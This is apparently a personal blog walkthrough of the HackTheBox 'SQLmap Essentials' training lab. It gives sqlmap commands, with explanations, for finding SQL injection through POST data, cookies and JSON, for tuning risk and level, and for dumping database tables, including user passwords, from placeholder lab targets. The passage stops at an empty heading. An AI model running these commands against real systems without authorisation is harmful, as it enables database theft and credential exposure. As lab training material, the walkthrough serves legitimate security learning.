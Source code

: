 ```yaml
---
title: "SQLmap Essentials - HackTheBox"
date: 2025-01-07 00:00:00 +0300
categories: [SQLmap Essentials]
tags: [SQLmap Essentials, cheatsheet, HackTheBox]
---
```



# SQLmap Essentials 

Hello there, welcome to my first blog of the year. 

This lab series is part of the [Bug Bounty Hunter Path](https://academy.hackthebox.com/path/preview/bug-bounty-hunter) of HackTheBox. This module aims to teach you the basics of using SQLMap to discover various types of SQL Injection vulnerabilities, all the way to the advanced enumeration of databases to retrieve all data of interest.

While I wait for the final skill assessment payload to get the flag which is taking a little too long I decided to write this walkthrough. It is among the labs I enjoyed much during the Bug Bounty Path.

I hope you enjoy perusing this walkthrough as much as I did writing it.

Also find a cheatsheet of the lab the end of the blog

# Running SQLmap on a HTTP Request

We are provided with a target that leads to a page that displays links to the different Cases respective of the questions.
 
 ![Alt Text](../assets/img/SQLMap-Essentials/sqlmap-essentials1.png)



Questions:


`1. What's the contents of table flag2? (Case #2)`

There is an 'id' parameter that is used to retrive rows of a table from a database. 

This indicates it is a POST request. This might help us in writing the command.

    sqlmap  'http://SERVERIP:PORT/case2.php' --data='id=*1' --batch --dump -T flag2
    

From the command:


`--data - speecifies that the HTTP data provided should be sent in a POST request.`

`id=*1 - This is the parameter of interest. The asterisk is a custom injection marker.`

`--batch - allows the running of the command without any user input.`

`--dump - displays data from a specified database table`

`-T - specifies database table.`



`2. What's the contents of table flag3? (Case #3)`

The cookie value id is vulnerable.

    sqlmap 'http://SERVERIP:PORT/case3.php'  --cookie='id=1*' --batch --dump  -T flag3

From the command:

  `--cookie - specifies the HTTP cookies that should be sent with the POST requests.`


`3. What's the contents of table flag4? (Case #4) `

There is a vulnerability in a JSON value for data: id. 

While JSON data is parsed differently in a HTTP request we may use a tool like BURP or Curl to capture the raw HTTP request and output it to a file. We then use the file in the command.

We will use Burpsuite for this.

![Alt Text](../assets/img/SQLMap-Essentials/sqlmap-essentials2.png)


    sqlmap -r req.txt  --batch --dump  -T flag4 

While it is applicable in this lab, we may also use the following command.

    sqlmap -u 'http://SERVERIP:PORT/case4.php'  --data={'"id":1'} --batch --dump  -T flag4
    

# Attack Tuning

Sqlmap comes right off the bat as a very strong tool, though it is capable to do more with some tuning by using flags that increase the accuracy of your scan. These may include flags for Level/Risk, Status Codes, Text and Techniques etc.

In this section we will use some of the above-mentioned flags that will dig deeper in our scans to achieve our goals. Follow me as we do it.

Questions

`1. What's the contents of table flag5? (Case #5) `

This challenges indicaes an OR SQLi vulnerability for the parameter 'id'. For this we will have to use the Level/Risk flags by raising the risk level. This is done because OR payloads are inherently dangerous in a default run, where underlying vulnerable SQL statements are actively modifying the database content. 

    sqlmap -u http://SERVERIP:PORT/case5.php?id=1 -T flag5 --no-cast --dump --batch --risk 3 --level 5

    sqlmap -u http://SERVERIP:PORT/case5.php?id=1 -T flag5 --no-cast --dump --batch --risk 3 --level 5 -dbs testdb -dbms MYSQL

From the command:

  `--no-cast - This flag ensures that you get the correct content.` 
  `--risk - [1-3]  extends the risk of causing problems at the target side (i.e., risk of database entry loss or denial-of-service).`
  `--level - [1-5] extends  boundaries being used, based on their expectancy of success (i.e., the lower the expectancy, the higher the level).`
  `--dbs - The database in question.`
  `--dbms - The underlying Database schema being used.`


`2. What's the contents of table flag6? (Case #6)`

The challenge has a vulnerable parameter col. This challenge requires the use of the prefix flag.

    sqlmap -u 'http://SERVERIP:PORT/case6.php?col=id' -T flag6 --dump --batch --risk 3 --level 5 --prefix='`)'

From the command:

  `--prefix -  used to specify a prefix that will be added to the payloads sent by SQLmap during its testing process`
  

`3. What's the contents of table flag7? (Case #7)`

The challenge has a vulnerable parameter at id and it is vulnerable using a UNION Query based technique. This means that we have to use the Union flag.

    sqlmap -u 'http://SERVERIP:PORT/case7.php?id=1' -T flag7 --dump --batch --risk 3 --level 5 --union-col=5

From the Command:

  `--union-col=5 - From the provided exercise we can manually count the columns in the table, so we include that in the command`
  

# Database Enumeration

Database enumaration requires the knowledge of how to use flags in your command. The `man sqlmap` and `sqlmap --help` can be of help with this.

Questions

`1. What's the contents of table flag1 in the testdb database? (Case #1)`

This challenge requires to know the names of the Database containing the table in question and the Database schema type being used

    sqlmap -u 'http://SERVERIP:PORT/case1.php?id=1' -T flag1 --dump --batch --risk 3 --level 5 --dbms MYSQL -D testdb
    

# Advanced Database Enumeration

Question

`1. What's the name of the column containing "style" in it's name? (Case #1)`

After looking into the sqlmap manual page we should now know what flag to use in order to get contents of the 'style' column

    sqlmap -u 'http://SERVERIP:PORT/case1.php?id=1' --batch --search -C "style"

From the command: 

  `search -C - Used to search for databases, tables, and columns of interest. The -C flag represents columns.`
  

`2. What's the Kimberly user's password? (Case #1)`

    sqlmap -u 'http://SERVERIP:PORT/case1.php?id=1' --dump --batch --columns -C name,password -T users

 From the command:

  `column - Lists the columns specified`
  

# Bypassing Web Application Protections







